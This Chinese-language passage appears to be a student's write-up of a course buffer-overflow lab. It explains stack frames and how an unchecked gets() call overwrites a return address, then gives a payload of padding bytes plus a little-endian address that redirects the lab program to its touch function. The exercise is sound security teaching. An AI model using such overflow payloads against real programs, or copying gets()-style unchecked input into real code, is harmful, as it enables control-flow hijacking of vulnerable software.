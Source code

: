 是的，**缓冲区**通常是用来存储局部变量的，尤其是函数中的局部数据，比如输入数据、临时计算结果、数组、结构体等。

### **为什么缓冲区通常是局部变量？**

- **局部变量**：在函数调用时分配在栈上，函数返回时销毁。栈的设计是为了存储函数的局部变量和函数调用的相关数据（如返回地址、参数等）。
- **缓冲区**：通常用于存放一些临时的数据，如用户输入、读取的文件内容、网络数据等。这些数据通常是函数调用的局部数据，因此它们就会被分配到栈上的局部变量空间中。

### **栈和局部变量的关系**

在栈中，**每个函数调用**都会为其局部变量分配一块空间，这一块空间通常称为**栈帧**（stack frame）。在栈帧中，你可以放置多个局部变量，其中就包括**缓冲区**。

举个简单的例子：

```c
void my_function() {
    char buffer[40];  // 这是局部变量，也就是缓冲区
    gets(buffer);      // 读取用户输入到缓冲区
}
```

在上面的代码中：

- `buffer` 是一个局部变量，它被分配在当前函数的栈帧中。
- 在 `gets(buffer)` 调用时，用户输入的数据会被存放在 `buffer` 中。如果输入的数据超出 40 字节，就会发生缓冲区溢出，覆盖栈上其他数据（比如返回地址）。

### **栈帧的结构**

每个函数的栈帧大致结构如下（以 `getbuf` 为例）：

```
|---------------------|
|   返回地址          | <-- 这部分会被覆盖（缓冲区溢出时）
|---------------------|
|   栈帧指针 (RBP)    |
|---------------------|
|   其他局部变量      |
|---------------------|
|   缓冲区 (buffer)    | <-- 用户输入的缓冲区，可能会溢出
|---------------------|
|   ...               |
```

在这个栈帧中，**缓冲区**（`buffer`）通常紧挨着返回地址的位置。当我们通过溢出缓冲区覆盖数据时，我们实际上覆盖的就是栈中的其他局部变量（如返回地址）。

### **总结**

- **缓冲区**是局部变量的一种，通常分配在栈帧中。
- **栈帧**包含函数调用的所有局部数据（包括缓冲区、返回地址等）。
- 如果缓冲区的大小没有限制好，用户输入超长数据时，就可能会发生缓冲区溢出，覆盖栈帧中的其他内容，从而可能导致程序的异常行为或漏洞。

**gets 是我们在 cpp 中学到的，它正是一个没有控制输入的函数，所以这里我们构造一个字符串，字符串输入进去后在栈上越叠越高直至覆盖了提前分配的缓冲区。**

于是我们只需要将对应的返回地址修改为 touch 的入口处即可：

```
#构造1le1.txt，前面反正可以随便填
#我们只需要满足对应的返回地址即可
12 34 56 78 
12 34 56 78 
12 34 56 78 
12 34 56 78 
12 34 56 78 
12 34 56 78 
12 34 56 78 
12 34 56 78 
12 34 56 78 
12 34 56 78
#这里注意小端序
c0 17 40 00
```